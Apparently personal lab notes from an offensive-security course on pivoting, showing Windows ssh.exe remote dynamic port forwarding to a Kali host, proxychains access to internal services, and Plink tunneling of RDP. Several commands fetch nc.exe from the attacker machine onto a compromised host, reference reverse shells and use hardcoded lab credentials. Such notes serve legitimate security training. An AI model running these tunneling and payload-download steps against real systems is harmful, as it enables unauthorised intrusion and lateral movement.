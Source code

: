 
add -p 2222 always
# ssh.exe

On Windows versions with SSH installed, we will find scp.exe, sftp.exe, ssh.exe, along with other ssh-* utilities in %systemdrive%\Windows\System32\OpenSSH location by default.

Let's practice this by creating a remote dynamic port forward from MULTISERVER03 (a Windows machine) to our Kali machine. In this scenario, only the RDP port is open on MULTISERVER03.

![[Pasted image 20240515004827.png]]

### start SSH service
```
sudo killall ssh

sudo systemctl start ssh
```

### RDP

as we get creds or shell on MULTISERVER03 we will connect through it

### find which port forwarding service is available

```
where ssh

ssh.exe -V
```

![[Pasted image 20240515010423.png]]

### connect via SSH

```
ssh -N -R 9998 kali@192.168.118.4 -p 2222
```

![[Pasted image 20240515010743.png]]
### verify port & SOCKS

```
ss -plunt
```

![[Pasted image 20240515010707.png]]

```
tail /etc/proxychains4.conf
```

![[Pasted image 20240515010719.png]]
### connect to service

```
proxychains psql -h 10.4.50.215 -U postgres
```

```
proxychains ./ssh_exe_exercise_client.bin -i 10.4.209.215 -p 4141
```


# Pink

- for shell only
- can't do remote dynamic port forwarding

majority times it's possible that only 80 or 443 is available and other ports are blocked by firewall

![[Pasted image 20240515011549.png]]

### start SSH service
```
sudo killall ssh

sudo systemctl start ssh
```

### transfer files and get shell

```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```

![[Pasted image 20240515015313.png]]

![[Pasted image 20240515015341.png]]

get reverse shell and transfer plink

[[windows-download-from-kali#^cc4ca5]]

[[windows-upload-to-kali#^e37ea8]]

### connect with Plink

```
plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.158 -P 2222
```

![[Pasted image 20240515020150.png]]

> [!NOTE]
> Notice that we escape from shell

soluction
```
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```
### verify

```
ss -plunt
```

![[Pasted image 20240515020315.png]]

now we can say that we open RDP port 3389 and bind it to **9833**

![[Pasted image 20240515020508.png]]

### connect RDP

```
xfreerdp /v:127.0.0.1:9833 /u:rdp_admin /p:'P@ssw0rd!' /cert-ignore /timeout:60000
```